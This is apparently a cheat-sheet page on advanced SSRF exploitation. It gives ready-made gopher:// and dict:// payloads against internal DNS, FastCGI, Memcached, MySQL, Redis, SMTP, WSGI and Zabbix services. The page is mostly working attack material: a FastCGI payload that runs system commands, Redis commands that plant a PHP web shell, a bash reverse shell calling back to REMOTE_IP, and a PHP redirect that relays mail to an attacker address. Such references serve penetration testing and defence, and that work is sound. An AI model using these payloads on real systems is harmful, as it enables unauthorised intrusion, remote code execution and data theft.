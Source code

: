 # SSRF Advanced Exploitation

> Some services (e.g., Redis, Elasticsearch) allow unauthenticated data writes or command execution when accessed directly. An attacker could exploit SSRF to interact with these services, injecting malicious payloads like web shells or manipulating application state.

## Summary 

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#memcached)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [References](#references)


## DNS AXFR

Query an internal DNS resolver to trigger a full zone transfer (**AXFR**) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## FastCGI

Requires to know the full path of one PHP file on the server, by default the exploit is using `/usr/share/php/PEAR.php`.

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```


## Memcached

Memcached communicates over port 11211 by default. While it is primarily used for storing serialized data to enhance application performance, vulnerabilities can arise during the deserialization of this data.

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL user should not be password protected.

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%00%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis is a database system that stores everything in RAM

The attacker changes Redis's dump directory to the web server's document root (`/var/www/html`) and renames the dump file to `file.php`, ensuring that when the database is saved, it generates a PHP file. They then create a Redis key (`mykey`) containing the web shell code, which enables remote command execution via HTTP GET parameters. Finally, the `SAVE` command forces Redis to write the current in-memory database to disk, resulting in the creation of the malicious web shell at `/var/www/html/file.php`.

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* Getting a webshell with `dict://`
    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
    dict://127.0.0.1:6379/SAVE
    ```

* Getting a PHP reverse shell with `gopher://`
    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

Malicious actors can craft `gopher://` URLs to manipulate low-level protocols (like HTTP or SMTP) on internal systems.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

The following PHP script can be used to generate a page that will redirect to the `gopher://` payload.

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```


## WSGI

Exploit using the Gopher protocol, full exploit script available at [wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py).

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |                |
|-----------------------|-----------|----|----------------|
| key length            | (2 bytes) | 10 | (%0A%00)       |
| key data              | (m bytes) |    | UWSGI_FILE     |
| value length          | (2 bytes) | 12 | (%0C%00)       |
| value data            | (n bytes) |    | /tmp/test.py   |


## Zabbix

If `EnableRemoteCommands=1` is enabled in the Zabbix Agent configuration, it allows the execution of remote commands.

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```


## References

- [SSRFmap - Introducing the AXFR Module - Swissky - June 13, 2024](https://swisskyrepo.github.io/SSRFmap-axfr/)
- [How I Converted SSRF to XSS in Jira - Ashish Kunwar - June 1, 2018](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
- [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - April 12, 2024](https://vozec.fr/writeups/pong-fcsc2024-en/)
- [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - April 13, 2024](https://mizu.re/post/pong)